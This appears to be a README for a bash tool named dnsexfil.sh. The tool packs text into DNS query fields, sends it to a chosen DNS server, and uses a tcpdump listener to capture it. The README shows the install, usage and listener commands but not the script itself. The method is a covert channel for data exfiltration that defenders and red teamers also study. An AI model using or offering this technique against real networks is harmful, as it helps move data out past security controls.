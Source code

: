 # DNS Text Sender Script

This bash script allows you to send the contents of a text variable using the DNS protocol. The text is broken into chunks and embedded into the DNS query field. If the text is too long for the maximum payload size, it is broken into multiple packets. The script allows you to specify the destination DNS server and sends the text 10 times in a row.

## Prerequisites

Ensure you have `dig` installed on your system. You can install it using your package manager if it's not already installed:

- Debian-based systems:
  ```sh
  sudo apt-get install dnsutils

- Red Hat systems:
  ```sh
  sudo yum install bind-utils

## Usage

  ```sh
  chmod +x dnsexfil.sh
  ./dnsexfil.sh "Your text to send" "dns.server.address"

## Set up a listener with TCPDUMP

  ```sh
  sudo tcpdump -i eth0 udp port 53 -vvv


